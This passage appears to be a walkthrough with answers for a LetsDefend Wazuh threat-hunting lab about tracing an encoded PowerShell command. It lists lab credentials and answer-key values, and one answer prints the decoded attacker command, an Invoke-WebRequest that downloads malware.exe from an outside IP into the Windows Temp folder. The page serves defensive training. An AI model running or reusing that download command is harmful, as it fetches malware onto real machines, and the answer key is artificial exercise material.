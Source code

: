 ![img](https://ld-images-2.s3.us-east-2.amazonaws.com/Threat+Hunting+with+SIEM/wazuh-lab-v2.png)

3- Go to https[:]//IP-Address on your browser

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/wazuh/w-lab3.png)

4- Put the credentials (letsdefend:letsdefend123)

### Questions

1 - What is the IP address  (agent_ip) of the endpoint where PowerShell was used with the  "EncodedCommand" parameter between Aug 1, 2024 00:00 - Aug 7, 2024  00:00?

> **Answer:** 192.168.100.25

2 - What is the decoded version of the command executed with the  "EncodedCommand" parameter in PowerShell between Aug 1, 2024 00:00 - Aug 7, 2024 00:00?

**Answer Format:** I….-W…. -.. "http://x.x.x.x/x.exe" -O… "C:\a\b\c.exe"

> **Answer:** Invoke-WebRequest -Uri "http://12.68.1.100/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"

3 - To which group is the  C&C IP address in the command executed with PowerShell's  "EncodedCommand" parameter (between Aug 1-7, 2024) attributed in the  LetsDefend Threat Intel module?

> **Answer:** APT-SKR-41

4 - What is the hash among the  IoCs associated with the group linked to the C&C IP address (from  the PowerShell "EncodedCommand" executed Aug 1-7, 2024) in the  LetsDefend “Threat Intel” module?

> **Answer:** 1230FB982C1A8DCBDF232BE450E124A34439D67

5 - What is the full path of  the executable for the parent process of the hash (among the IoCs  associated with the group linked to the C&C IP address from the  PowerShell "EncodedCommand")?

> **Answer:** C:\\Windows\\explorer.exe

6 - Which IP address did the  process (associated with the hash from the IoCs linked to the C&C IP address) communicate with between “Aug 1, 2024 00:00 - Aug 7, 2024  00:00”?

> **Answer:** 185.220.101.24

7 - What was the firewall  action for the IP address that the process (associated with the hash  from the IoCs linked to the C&C IP address) attempted to communicate with between “Aug 1, 2024 00:00 - Aug 7, 2024 00:00”?

> **Answer:** deny

## Practical Lab-3

### Hypothesis-3

**Note**: The following questions are provided for the threat hunting process to test the following hypothesis.

**Hypothesis:** An attacker may be conducting reconnaissance activities (both endpoint and domain-level) from a compromised endpoint, and may have deleted  associated log entries to cover their tracks.
